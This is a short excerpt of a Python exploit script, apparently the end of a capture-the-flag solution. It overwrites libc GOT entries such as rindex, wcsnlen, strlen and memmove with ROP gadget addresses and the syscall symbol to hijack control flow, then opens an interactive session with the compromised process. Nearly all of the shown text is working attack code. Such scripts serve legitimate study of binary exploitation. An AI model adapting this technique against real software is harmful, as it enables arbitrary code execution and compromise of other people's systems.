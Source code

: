 ```python
    # 000c6529  e85221f6ff         call    jumps_wcsnlen

    MOV_RDI_R13 = libc.address + 0x0011de45 # calls rindex
    # 0011de45  4c89ef             mov     rdi, r13
    # 0011de48  41bc01000000       mov     r12d, 0x1
    # 0011de4e  e89da7f0ff         call    jumps_rindex    


    write_u32(r, libc.address + 0x219148, libc.symbols['syscall']) # rindex
    write_u32(r, libc.address + 0x219190, MOV_RDI_R13) #wcsnlen
    write_u32(r, libc.address + 0x219110-1, ( MOV_RSI_R14 & 0xffffffff) << 8) # strcasecmp
    # have to offset this by one bc the address contains whitespace
    write_u32(r, libc.address + 0x219068, BIG_POP_GADGET)  # memmove
    write_u32(r, libc.address + 0x219130,  RDX_GADGET) # wcscmp
    write_u32(r, libc.address + 0x219098, libc.address + ADJUST_STACK, should_fault=True)#) # strlen

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```